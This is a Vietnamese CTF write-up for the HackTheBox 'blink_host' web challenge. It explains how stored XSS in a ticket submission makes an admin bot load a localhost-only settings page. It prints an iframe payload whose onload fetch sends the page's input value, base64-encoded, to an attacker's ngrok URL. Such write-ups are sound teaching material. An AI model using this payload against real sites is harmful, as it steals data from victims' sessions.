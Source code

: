 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/Untitled.png)
ta tiến hành đọc code và thấy rằng ở tệp __challenge/views/settings.html__ có flag nằm ở thẻ input
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/4.png)
<br />
tệp challenge/routes/index.js có đoạn code mô tả
chỉ cần truy cập vào đường dẫn __/settings__  thì sẽ nhận response là __settings.html__ nhưng mà đường dẫn này chỉ có ip localhost mới được truy cập.
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/1.png)

ở đoạn mã này có mô tả, ta chỉ cần gửi 1 gói __json gồm có name, email, website, message__ thì sẽ lưu vào database
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/3.png)
và sau đó con bot sẽ tiến hành truy cập đến đường dẫn __/tickets__
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/%60.png)

khi vào đường dẫn __/tickets__  này, sẽ hiện thị ra toàn bộ dữ liệu trong table __tickets__ 
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/2.png)

bây giờ ta chỉ cần chèn mã script vào bất kỳ trường __name, email, website, message__ trong gói json gửi lên __/api/submit_ticket__   để thực hiện XSS yêu cầu con bot truy cập đến đường dẫn __/settings__ trên web và truy xuất đến thẻ input thứ 5 lấy value cũng chính là glag gửi flag về máy mình
``` 
<iframe id="iframetrung" src="settings" onload=fetch("http://027d-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/?flag="+btoa(document.getElementById('iframetrung').contentWindow.document.getElementsByTagName("input")[4].value)); >
</iframe>
```
và dùng công cụ ngrok để nhận flag gửi về

